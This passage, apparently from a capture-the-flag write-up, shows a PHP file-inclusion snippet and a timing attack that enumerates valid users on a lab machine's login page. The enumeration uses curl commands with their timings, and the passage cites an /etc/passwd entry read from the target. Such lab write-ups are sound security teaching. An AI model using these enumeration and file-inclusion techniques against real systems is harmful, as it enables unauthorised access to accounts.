 ```php
if (isset($_GET['img'])) {
    if (is_safe_include($_GET['img'])) {
        include($_GET['img']);
    } else {
        echo "Hacking attempt detected!";
    }
}

```

This uses `include`, which means it can execute PHP code if any file is included using that. This will be important later.

### Timing Attack

There was a weird function called `createTimeChannel()` within the `login.php` file, and all it does is `sleep(1)`. This function only executes on a valid user, so we can use this to fuzz for users and check which time is the shortest.

For example, we can compare between a fake user 'test', and a real user 'admin':

```
$ time curl -X POST http://10.129.71.202/login.php?login=true -d 'user=test&password=test' > /dev/null                   
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5986  100  5963  100    23   234k    927 --:--:-- --:--:-- --:--:--  233k

real    0.03s
user    0.01s
sys     0.00s
cpu     19%

$ time curl -X POST http://10.129.71.202/login.php?login=true -d 'user=admin&password=test' > /dev/null
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5987  100  5963  100    24   5257     21  0:00:01  0:00:01 --:--:--  5279

real    1.14s
user    0.00s
sys     0.01s
cpu     0%
```

Using this, we can brute force the users out. Since we have the `/etc/passwd` file, we can find that `aaron` is a user with a shell:

```
aaron:x:1000:1000:aaron:/home/aaron:/bin/bash
```

Doing the same test, we can see the request with `aaron` as the username takes more than 1s.

```
$ time curl -X POST http://10.129.71.202/login.php?login=true -d 'user=aaron&password=test' > /dev/null
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  5987  100  5963  100    24   5294     21  0:00:01  0:00:01 --:--:--  5317

real    1.13s
user    0.00s
sys     0.00s
cpu     0%
```
